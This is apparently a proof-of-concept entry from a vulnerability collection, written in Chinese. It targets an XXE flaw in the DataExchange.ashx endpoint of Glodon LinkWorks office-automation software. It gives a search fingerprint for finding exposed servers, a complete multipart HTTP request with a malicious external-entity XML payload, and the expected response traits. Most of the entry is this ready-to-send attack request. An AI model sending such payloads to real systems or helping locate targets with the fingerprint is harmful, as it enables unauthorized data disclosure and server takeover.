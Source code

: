 ﻿# 广联达Linkworks DataExchange.ashx XXE漏洞

> 更新时间：2024-03-08

> 漏洞编号：

> 漏洞说明：广联达LinkWorks办公OA（Office Automation）是一款综合办公自动化系统，旨在提高组织内部的工作效率和协作能力。它提供了一系列功能和工具，帮助企业管理和处理日常办公任务、流程和文档。该系统/GB/LK/Document/DataExchange/DataExchange.ashx接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，会导致服务器数据泄露以及被远控。

> 漏洞特征：body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"

> 验证脚本：HTTP

```
POST /GB/LK/Document/DataExchange/DataExchange.ashx HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryJGgV5l5ta05yAIe0
Purpose: prefetch
Sec-Purpose: prefetch;prerender

------WebKitFormBoundaryJGgV5l5ta05yAIe0
Content-Disposition: form-data;name="SystemName"

BIM
------WebKitFormBoundaryJGgV5l5ta05yAIe0
Content-Disposition: form-data;name="Params"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY t SYSTEM "http://www.baidu.com">
]
>
<test>&t;</test>
------WebKitFormBoundaryJGgV5l5ta05yAIe0--
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：广联达Linkworks DataExchange.ashx XXE漏洞.poc

